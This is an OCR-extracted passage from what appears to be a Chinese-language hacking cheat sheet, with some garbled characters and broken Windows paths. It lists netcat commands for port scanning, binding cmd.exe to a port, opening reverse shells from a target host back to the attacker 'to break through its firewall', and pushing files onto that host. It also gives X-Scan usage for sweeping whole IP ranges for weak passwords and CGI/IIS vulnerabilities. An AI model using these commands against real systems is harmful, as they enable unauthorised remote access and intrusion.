 nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
端口
nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口
高级用法：
nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
本机上用：nc -l -p 本机端口
在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
备 注：
| 管道命令
< 或 > 重定向命令。&ldquo;<&rdquo;，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
＠ 表示执行＠后面的命令，但不会显示出来（后台执行）；例：＠dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
>与>>的区别 　">"指：覆盖；">>"指：保存到(添加到）。
如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

八：

2、扫锚工具：xscan.exe

基本格式
xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
检测项目
-active 检测主机是否存活
-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
-port 检测常用服务的端口状态
-ftp 检测FTP弱口令
-pub 检测FTP服务匿名用户写权限
-pop3 检测POP3-Server弱口令
-smtp 检测SMTP-Server漏洞
-sql 检测SQL-Server弱口令
-smb 检测NT-Server弱口令
-iis 检测IIS编码/解码漏洞
-cgi 检测CGI漏洞
-nasl 加载Nessus攻击脚本
-all 检测以上所有项目
其它选项
-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
-l 显示所有网络适配器
-v 显示详细扫描进度
-p 跳过没有响应的主机
-o 跳过没有检测到开放端口的主机
　 -t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
-log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
用法示例
xscan -host 192.168.1.1-192.168.255.255 -all -active -p　 检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机
xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测&ldquo;hostlist.txt&rdquo;文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
